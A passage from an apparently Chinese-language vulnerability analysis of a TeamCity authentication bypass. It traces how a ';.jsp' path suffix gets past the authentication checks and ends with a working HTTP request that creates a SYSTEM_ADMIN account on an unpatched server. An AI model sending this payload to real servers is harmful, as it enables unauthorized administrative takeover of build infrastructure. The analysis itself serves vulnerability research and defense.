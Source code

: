 这个方法会将该对象的参数view更新为jsp的参数值

![image-20240309165743810](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-555bb75f7ef91fbdfe9966e857d971bf88103333.png)

然后在`org.springframework.web.servlet.DispatcherServlet`的`resolveViewName`方法进行视图渲染 ， 得到 `JstlView` 类型的 `view`

![image-20240309170453423](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e329c4bd88d00c749736bbfd6bcb01db1ab2367e.png)

后面在执行获取视图路径的 `RequestDispatcher` 过程中，在`org.apache.catalina.core.ApplicationContext`里面的`getRequestDispatcher`方法会对url作如下处理：

![image-20240309173511241](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-dda3a45131ef7bfb4b779853295549c27d67752e.png)

其中 `stripPathParams` 方法会将 uri 中出现 `;` 及其之后的部分去除，因此最后请求 path 变为了 `/app/rest/server` ，进而绕过鉴权

![image-20240309173942827](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-413947af009d83405e11dc8f353d2c82343b5960.png)

整个漏洞利用过程大概就是这样子

上面我使用的路径是`/login.html`，在网传的payload中都是通过访问一个不存在的路径触发404，然后servlet路径为/404.html ，进而使isControllerRequestWithViewName为true

![image-20240309180758301](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-47c71000909957878b81eb0655cc291448e30abc.png)

漏洞利用
----

漏洞利用主要看的是API的功能，上面访问的`/app/rest/server`的返回了很多API

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>  
<server version="2023.11.3 (build 147512)" versionMajor="2023" versionMinor="11" startTime="20240309T055615+0000" currentTime="20240309T082334+0000" buildNumber="147512" buildDate="20240129T000000+0000" internalId="9ef67929-e0cc-4182-b4b0-34d4ec728f42" role="main_node" webUrl="http://localhost:8111" artifactsUrl=""\>  
    <projects href="/app/rest/projects"/>  
    <vcsRoots href="/app/rest/vcs-roots"/>  
    <builds href="/app/rest/builds"/>  
    <users href="/app/rest/users"/>  
    <userGroups href="/app/rest/userGroups"/>  
    <agents href="/app/rest/agents"/>  
    <buildQueue href="/app/rest/buildQueue"/>  
    <agentPools href="/app/rest/agentPools"/>  
    <investigations href="/app/rest/investigations"/>  
    <mutes href="/app/rest/mutes"/>  
    <nodes href="/app/rest/server/nodes"/>  
</server>
```

添加管理员用户：

```http
POST /xxx?jsp=/app/rest/users;.jsp HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36  
Accept: */*  
Content-Type: application/json  
Accept-Encoding: gzip, deflate  
​  
{"username": "用户名", "password": "密码", "email": "test@n.com", "roles": {"role": \[{"roleId": "SYSTEM\_ADMIN", "scope": "g"}\]}}
```
